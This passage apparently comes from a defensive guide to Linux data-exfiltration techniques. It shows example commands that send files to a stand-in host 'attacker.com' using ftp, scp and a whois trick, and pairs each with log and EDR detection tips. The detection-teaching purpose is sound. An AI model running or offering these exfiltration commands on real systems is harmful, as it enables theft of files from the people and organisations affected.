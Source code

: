 ```
# RHOST=attacker.com   # ftp $RHOST   # put file_to_send
```

For detection; Executing the ftp command directly may generate too  many false positives as the ftp command is generally used for some  operational processes. Therefore, it should be questioned whether the  destination (IP/domain) to which the file is transferred is a known  destination.

- Searchable in Linux audit logs.  # cat /var/log/audit/audit.log | grep “ftp”   - Searchable from history on Linux system.  # history | grep “ftp”  or  # cat ~/.bash_history | grep “ftp”   - It can be searched from "ftp" process create or network connection events in EDR/XDR logs.

### **# scp command**

**scp** stands for "Secure Copy" and it is an  application for transferring files between systems. It uses the SSH  (secure shell) protocol for file transfer. As stated below, the file to  be sent is stated first, then the target system and the directory where  the file will be loaded on the target system are specified.

```
# RPATH=user@attacker.com:~/file_to_save   # LPATH=file_to_send   # scp $LFILE $RPATH   # scp test_file root@target_system:/root/
```

For detection; Executing the scp command directly may generate too  many false positives as the scp command is generally used for some  operational processes. Scp usage within the network should be monitored  closely, and usage detections except for the known usage cases should be further investigated. In addition, it should be questioned whether the  destination (IP/domain) to which the file is transferred is a known  destination.

- Searchable in Linux audit logs.  # cat /var/log/audit/audit.log | grep “scp”   - Searchable from history on Linux system.  # history | grep “scp”  or  # cat ~/.bash_history | grep “scp”   - It can be searched from "scp" process create or network connection events in EDR/XDR logs.

### **# whois command**

whois is an application that performs querying information about IP  Address or Domain (registration date, email address, who it belongs to). Whois application can also be used for file transfer operations. In the whois command, the host address to be accessed is specified with the -h parameter, and the destination port information is specified with the  -p parameter. Then the file content of “file_to_send” defined with “cat  $LFILE” executed as a 2nd command is forwarded to the target host.

```
# RHOST=attacker.com  # RPORT=12345# LFILE=file_to_send  # whois -h $RHOST -p $RPORT "`cat $LFILE`"
```

For detection; The usage status of the whois command with -h or -host parameter should be monitored closely. In addition, it is should be  questioned whether the destination (IP/domain) to which the file is  transferred is a known destination.

- Searchable in Linux audit logs.  # cat /var/log/audit/audit.log | grep “whois” | grep “h”   - Searchable from history on Linux system.  # history | grep “whois” | grep “h”  or  # cat ~/.bash_history | grep “whois” | grep “h”   - It can be searched from "whois" process create or network connection  events in EDR/XDR logs. Afterwards, the "-h" parameter is checked on the command line.

### **# tar command**
